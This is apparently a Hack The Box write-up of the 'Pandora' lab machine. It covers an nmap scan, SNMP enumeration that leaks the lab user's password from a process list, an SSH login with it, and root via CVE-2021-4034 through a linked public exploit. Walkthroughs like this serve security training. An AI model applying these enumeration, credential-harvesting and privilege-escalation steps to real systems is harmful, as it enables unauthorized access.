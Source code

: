 ```yaml
---
layout: post
title: Pandora HTB Writeup
excerpt_separator: <!--more-->
---
```


From the decription of the machine, I pwned the box in an unintended way.

![logo](https://i.imgur.com/R2z087e.png)

1 Enumeration
---
<!--more-->

nmap
~~~
┌──(wolf㉿piratesec)-[~/Htb/pandora]
└─$ sudo nmap --min-rate 20000 10.129.87.252 -oN nmap -v -sU -sS
[sudo] password for wolf:
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-07 07:40 EDT
Initiating Ping Scan at 07:40
Scanning 10.129.87.252 [4 ports]
Completed Ping Scan at 07:40, 0.20s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 07:40
Completed Parallel DNS resolution of 1 host. at 07:40, 0.06s elapsed
Initiating SYN Stealth Scan at 07:40
Scanning 10.129.87.252 [1000 ports]
Increasing send delay for 10.129.87.252 from 0 to 5 due to 97 out of 321 dropped probes since last increase.
Discovered open port 80/tcp on 10.129.87.252
Discovered open port 22/tcp on 10.129.87.252
Increasing send delay for 10.129.87.252 from 5 to 10 due to 196 out of 653 dropped probes since last increase.
Completed SYN Stealth Scan at 07:40, 0.72s elapsed (1000 total ports)
Initiating UDP Scan at 07:40
Scanning 10.129.87.252 [1000 ports]
Discovered open port 161/udp on 10.129.87.252
Completed UDP Scan at 07:40, 0.39s elapsed (1000 total ports)
Nmap scan report for 10.129.87.252
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (reset), 6 closed udp ports (port-unreach), 993 open|filtered udp ports (no-response)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
161/udp open  snmp

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.65 seconds
           Raw packets sent: 4138 (186.425KB) | Rcvd: 1009 (40.852KB)
~~~

I'm going to start with the low lying fruits: SNMP port 161.

## SNMP Port 161

Simple Network Management Protocol (SNMP) is an internet standard protocol used to monitor and manage Network devices connected over an IP.
Snmp can be a great place to look for information. I'm going to head over to metasploit to see if there are any exploits. SNMP can also be enumerated by **SNPMWALK**.

### SNMP Enumeration

I found this metasploit exploit to enumerate SNMP

![snmp](https://i.imgur.com/49uyQhZ.png)

Running it against the port I get creds for a user:daniel with pass:HotelBabylon23
~~~
976                 runnable            sh                  /bin/sh             -c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'
981                 runnable            sshd                sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
1005                runnable            agetty              /sbin/agetty        -o -p -- \u --noclear tty1 linux
1041                runnable            mysqld              /usr/sbin/mysqld
1042                runnable            apache2             /usr/sbin/apache2   -k start
1043                runnable            apache2             /usr/sbin/apache2   -k start
1044                runnable            apache2             /usr/sbin/apache2   -k start
1045                runnable            apache2             /usr/sbin/apache2   -k start
1046                runnable            apache2             /usr/sbin/apache2   -k start
1047                runnable            apache2             /usr/sbin/apache2   -k start
1137                runnable            host_check          /usr/bin/host_check -u daniel -p HotelBabylon23
1178                runnable            apache2             /usr/sbin/apache2   -k start
1199                runnable            apache2             /usr/sbin/apache2   -k start
1200                runnable            apache2             /usr/sbin/apache2   -k start
1289                unknown             kworker/u4:0-events_power_efficient
1302                runnable            apache2             /usr/sbin/apache2   -k start
1353                runnable            apache2             /usr/sbin/apache2   -k start
1378                unknown             kworker/0:0-events
1455                unknown             kworker/u4:1-events_power_efficient
1457                unknown             kworker/0:1-cgroup_destroy
1459                unknown             kworker/1:0


[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/snmp/snmp_enum) >
~~~

2 Foothold
---

Using the creds I'm able to login into ssh..

~~~
┌──(wolf㉿piratesec)-[~/Htb/pandora]
└─$ ssh daniel@10.129.87.252
daniel@10.129.87.252's password:
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue  7 Jun 08:52:40 UTC 2022

  System load:           0.02
  Usage of /:            63.0% of 4.87GB
  Memory usage:          8%
  Swap usage:            0%
  Processes:             224
  Users logged in:       1
  IPv4 address for eth0: 10.129.87.252
  IPv6 address for eth0: dead:beef::250:56ff:fe96:2577

  => /boot is using 91.8% of 219MB


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Jun  7 08:51:30 2022 from 10.10.16.14
daniel@pandora:~$
~~~

Looking around the daniel's directory I find nothing. Daniel can't execute sudo commands.

![daniel](https://i.imgur.com/gNelaUc.png)

I then head over to home and find another user Matt. Inside Matt's directory is a user.txt but I can't read it: permission denied.

![perm](https://i.imgur.com/4aoQLoP.png)


3 Privesc
---

Time for Linpeas. I start a python server on my local machine and download linpeas on the compromised machine. It seems the sudo version is vulnerable to  CVE-2021-4034.

![linpeas](https://i.imgur.com/nzLdnpP.png)

Looking around the web I found a [python exploit](https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py) to exploit the vulnerability.

Running it on the machine I get root..

![root](https://i.imgur.com/gkIYYTC.png)

@wolf
